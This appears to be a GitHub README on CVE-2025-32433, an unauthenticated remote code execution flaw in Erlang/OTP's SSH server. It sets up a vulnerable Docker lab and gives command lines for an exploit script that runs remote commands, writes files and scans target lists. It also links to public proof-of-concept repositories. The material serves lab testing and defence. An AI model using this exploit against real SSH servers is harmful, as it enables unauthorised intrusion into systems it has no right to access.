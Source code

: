 # CVE-2025-32433
Erlang/OTP is a set of libraries for the Erlang programming language. Prior to versions OTP-27.3.3, OTP-26.2.5.11, and OTP-25.3.2.20, a SSH server may allow an attacker to perform unauthenticated remote code execution (RCE). By exploiting a flaw in SSH protocol message handling, a malicious actor could gain unauthorized access to affected systems and execute arbitrary commands without valid credentials. This issue is patched in versions OTP-27.3.3, OTP-26.2.5.11, and OTP-25.3.2.20. A temporary workaround involves disabling the SSH server or to prevent access via firewall rules.

## Metrics
CVSSv3: 10.0 (CRITICAL)

## Vulnerability Environment
Build and run:
```bash
docker compose build
docker compose up -d
```
Stop Environment and remove network:
```bash
docker compose down
```

Vulnerable SSH server will exposed on port 2222.

## Detection and exploitation example
Use the CVE-2025-32433.py to test or exploit the SSH vulnerability:

```bash
python3 CVE-2025-32433.py -H <host> [-p <port>] [-t <timeout>] [-v] [-T <targets_file>] [-c <command> | -f --path <path> --content <content>]
```

###Example Usage:
#### Specify a different SSH port (e.g., 2022)
```bash
python3 CVE-2025-32433.py -H 172.90.240.1 -p 2222
```

#### Run a custom command
```bash
python3 CVE-2025-32433.py -H 172.90.240.1 -c "whoami"
```

#### Write a file to a remote path with custom content:
```bash
python3 CVE-2025-32433.py -H 172.90.240.1 -f --path /tmp/pwned --content "Exploit successful"
```

#### Scan multiple targets from a list:**
```bash
python3 CVE-2025-32433.py -T targets.txt
```

## Exploits and PoCs
https://github.com/Vip3r-MC/VulnVault/tree/main/cves/CVE-2025-32433  
https://github.com/ProDefense/CVE-2025-32433   
## Nuclei Template

## CTF Rooms

## References
[NIST: CVE-2025-32433](https://nvd.nist.gov/vuln/detail/CVE-2025-32433)  
[platformsecurity: How I Used AI to Create a Working Exploit for CVE-2025-32433 Before Public PoCs Existed](https://platformsecurity.com/blog/CVE-2025-32433-poc)  
[Erlang/OTP Security Advisory](https://www.erlang.org/security)  
